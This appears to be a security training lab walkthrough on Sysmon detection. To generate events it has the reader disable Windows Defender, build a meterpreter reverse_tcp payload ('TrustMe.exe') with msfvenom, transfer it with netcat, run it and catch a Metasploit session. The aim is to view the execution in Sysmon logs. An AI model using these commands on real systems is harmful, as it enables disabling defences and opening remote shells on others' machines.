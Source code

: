 
# Sysmon

First, let’s disable Defender. Simply run the following from an Administrator PowerShell prompt:

`Set-MpPreference -DisableRealtimeMonitoring $true`

This will disable Defender for this session.

If you get angry red errors, that is Ok, it means Defender is not running.

Next, let’s start up the ADHD Linux system and set up our malware and C2 listener: 

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](../AppLocker/attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux system, please run the following command:

$`ifconfig`

![](../AppLocker/attachments/Clipboard_2020-06-12-12-35-15.png)

Please note the IP address of your Ethernet adapter.  

Please note that my adaptor is called eth0 and my IP address is 172.31.141.100.   

Your IP Address and adapter name may be different.

Now, run the following commands to start a simple backdoor and backdoor listener: 
 

$ `sudo su -`
Please note, the adhd password is adhd.

\#`msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<YOUR LINUX IP> lport=4444 
-f exe -o /tmp/TrustMe.exe`

\#`cd /tmp`

\#`ls -l TrustMe.exe`

/#`nc -l -p 2222 < TrustMe.exe`


Now, let's start the Metasploit Handler.  First, open a new Ubuntu Terminal by clicking the down carrot then selecting Ubuntu-18.04.

Let's become root.

`sudo su -`


root@DESKTOP-I1T2G01:/tmp# `msfconsole -q`

msf5 > `use exploit/multi/handler`

msf5 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

PAYLOAD => windows/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > `set LHOST 172.31.141.100`

Remember, your IP will be different!

msf5 exploit(multi/handler) > `exploit`

It should look like this:

![](../AppLocker/attachments/Clipboard_2020-06-12-12-46-10.png)

Now, we will need to open an cmd.exe terminal as Administrator.

![](../AppLocker/attachments/cmd-command-prompt.png)

When you get the pop up select Yes.

Next, to open a Command Prompt Window, select the Down Carrot ![](attachments\Clipboard_2020-06-12-10-38-20.png) and then select Command Prompt.

![](attachments/Clipboard_2020-06-12-10-38-52.png)

Then, type the following:

C:\Windows\system32>`cd \Tools`

C:\Tools>`Sysmon64.exe -accepteula -i sysmonconfig-export.xml`


It should look like this:

![](attachments/Clipboard_2020-06-15-10-43-37.png)


let's run the following commands to copy over and run the TrustMe.exe file.

`cd \tools`

`nc <Your Linux IP> 2222 > TrustMe.exe`

Take a deep breath.  Count to 5.  Then hit Ctrl+c to kill the connection.

Then, run it.

`TrustMe.exe`

It should look like this:

![](../AppLocker/attachments/TrustMe.png)


Back at your Ubuntu prompt, you should have a metasploit session!

![](../AppLocker/attachments/Clipboard_2020-06-12-12-55-11.png)


Now, we need to view the Sysmon events for this malware:

You will select Event Viewer > Applications and Services Logs > Windows > Sysmon > Operational

![](attachments/Clipboard_2020-06-15-10-46-31.png)


        …………………………………………………………….

![](attachments/Clipboard_2020-06-15-10-47-01.png)


Start at the top and work down through the logs, you should see your malware executing.  Please note your paths may be different.

![](attachments/Clipboard_2020-07-09-16-04-23.png)

![](attachments/Clipboard_2020-07-09-16-04-40.png)




















